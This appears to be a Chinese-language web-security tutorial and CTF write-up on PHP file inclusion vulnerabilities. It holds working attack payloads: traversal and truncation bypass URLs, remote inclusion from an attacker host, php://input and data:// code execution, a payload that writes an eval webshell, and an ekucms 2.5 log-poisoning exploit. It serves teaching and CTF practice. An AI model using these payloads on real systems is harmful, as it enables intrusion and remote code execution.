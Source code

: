 ```yaml
---
title: "文件包含漏洞" # 文章标题.
date: 2023-03-09
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# 文件包含漏洞

![文件操作安全](./文件操作安全.png)

## 文件包含漏洞

原理，检测，类型，利用，修复等。

```php
$filename = $_GET['x'];
// http://127.0.0.1:80/index.php?x=index.txt
// index.txt中有如下代码<?php phpinfo();?>
// 这样就会忽略文件类型,将index.txt中的内容当作php代码来执行
include($filename);

// 有限制的代码
$filename = $_GET['x'];
include($filename.".html"); // 在文件名的后缀中加入.html的后缀,变成index.txt.html
// 一般这样文件包含的话,会报错,会爆出是什么文件后缀的格式。
```

### 防御

```php
<?php
    $filename = $_GET['filename'];
	include('index.txt'); // 直接写死,是最好的防御
?>
```

## 文件包含各个脚本代码

ASP，PHP，JSP，ASPX等。

```jsp
<!--#include file = "index.asp" -->
<!--#include file = "index.aspx" -->
<c:import url="http://127.0.0.1/index.jsp">
<jsp:include page="head.jsp"/>
<%@ include file="head.jsp"%>
<?php include("index.php")?>
```

### 本地包含

#### 无限制

```url
http://127.0.0.1:8080/include.php?filename=1.txt
http://127.0.0.1:8080/include.php?filename=../../../www.txt
```

#### 有限制

##### 绕过

%00截断

1. 条件：`magic_quotes_gpc = off`

2. php版本<5.3.4

```url
filename=../../../www.txt%00
```

##### `./`绕过

长度截断：windows点号需要长于256；Linux长于4096

```url
192.168.132.139/mypage/mywebpage/includefile.php?y=index.txt./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

### 远程包含

打开allow_url_fopen 和 allow_url_include 选项。

#### 无限制

```url
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt #菜刀可以连接
```

#### 有限制

```url
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%00
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%20
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%23
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt?
```

## 各种协议流玩法

1. ```php
   http://127.0.0.1:8080/include.php?filename=php://filter/convert.base64-encode/resource=index.txt
   ```

2. ```php
   http://127.0.0.1:8080/include.php?filename=php://input
   POST:<?php system('ver');?>
   POST:<?php fputs(fopen('shell111.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
   ```

3. ```php
   http://127.0.0.1:8080/include.php?filename=file:///D:/phpstudy/PHPTutorial/WWW/1.txt
   ```

4. ```php
   http://127.0.0.1:8080/include.php?filename=data://text/plain,<?php phpinfo();?>
   ```

## 文件下载

下载文件的时候，需要知道对方相应重要的信息文件，如何获取呢？

1. 扫描工具爬行或者扫描地址
2. 重要的数据库配置文件
3. 下载好的代码文件中去分析路径和包含文件获取
4. 一般就是路径扫描工具去判断。

## 文件读取

## 实战

### 南邮CTF平台

解析：用的是php的伪协议。

```url
http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

得到是一个`base64`的编码，对`base64`解码可得出`flag`。`flag`就在`html`中。

### ekucms 2.5

漏洞点：

```url
192.168.132.139/mypage/ekucms/?s=my/show/id/{~eval($_POST[x])}
```

利用：

```php
http://192.168.132.139/mypage/ekucms/?s=my/show/id/\..\temp\logs\23_03_14.log
不用写<?php?>,因为是文件包含所以说直接可以运行php代码,include 把这个文件当作脚本执行
```

### BUUCTF

#### [RoarCTF 2019] Easy Java

```
https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java
```

![BUUCTF Easy Java](./BUUCTF_Easy_Java.png)

这个题目可能会让人以为是SQL注入的问题，但是如果你仔细发现这个help，就会知道，这是一个文件下载读取的问题。

![BUUCTF Easy Java解答1](./BUUCTF_Easy_Java解答1.png)

通过读取相应的web.xml文件可以知道Flag就在FlagController中。

![BUUCTF Easy Java解答2](./BUUCTF_Easy_Java解答2.png)

通过web.xml文件得到相应的Controller的Class文件。

![BUUCTF Easy Java解答3](./BUUCTF_Easy_Java解答3.png)

得到相应的Class文件可以得到对应base64编码后的flag，只需要对base64进行解密，就可以拿到flag。

![BUUCTF Easy Java解答4](./BUUCTF_Easy_Java解答4.png)
